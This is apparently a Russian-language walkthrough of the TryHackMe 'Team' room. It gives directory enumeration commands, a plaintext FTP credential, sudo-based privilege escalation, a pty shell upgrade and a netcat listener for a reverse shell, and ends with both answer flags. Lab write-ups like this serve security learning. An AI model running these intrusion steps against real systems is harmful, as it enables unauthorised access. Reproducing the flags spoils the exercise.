 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Team](https://tryhackme.com/r/room/teamcw) 

Всего 2 задания:
## Задание 1
Привет всем, это мой первый бокс! Он рассчитан на новичков, так как я часто вижу боксы, которые "легкие", но зачастую немного сложнее!

Пожалуйста, подождите 3–5 минут, пока устройство загрузится.

Редактировать 06/03/21- Просто для ясности, есть несколько способов получить root-права на этой машине. Один из них 
непреднамеренный, но это просто еще одна возможность научиться :) 

Создано:dalemazza

Благодарим P41ntP4rr0t за помощь в пути .
### Ответьте на вопросы ниже
Развернуто
```commandline
Ответ не нужен
```

## Задание 2
Создано: dalemazza

Благодарим P41ntP4rr0t за помощь в пути .

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV -A <IP>
curl -s http://<IP>/robots.txt
gobuster dir -u http://<IP> -x php,txt -w /usr/share/wordlists/dirb/common.txt 
gobuster dir -u http://<IP>/scripts/ -x php,txt -w /usr/share/wordlists/dirb/common.txt 
curl -s http://<IP>/scripts/script.txt
curl -s http://<IP>>/scripts/script.old
ftpuser:T3@m$h@r3
ftp <IP>
ls
cd workshare
ls
get New_site.txt -

```
```commandline
THM{6Y0TXHz7c2d}
```
корень.txt
```commandline
sudo -l
cat admin_checks
sudo -u gyles /home/gyles/admin_checks
python3 -c "import pty;pty.spawn('/bin/bash')"
cat /opt/admin_stuff/script.sh 
cat /usr/local/bin/main_backup.sh

nc -nlvp 4444
cat /root/root.txt
```
```commandline
THM{fhqbznavfonq}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)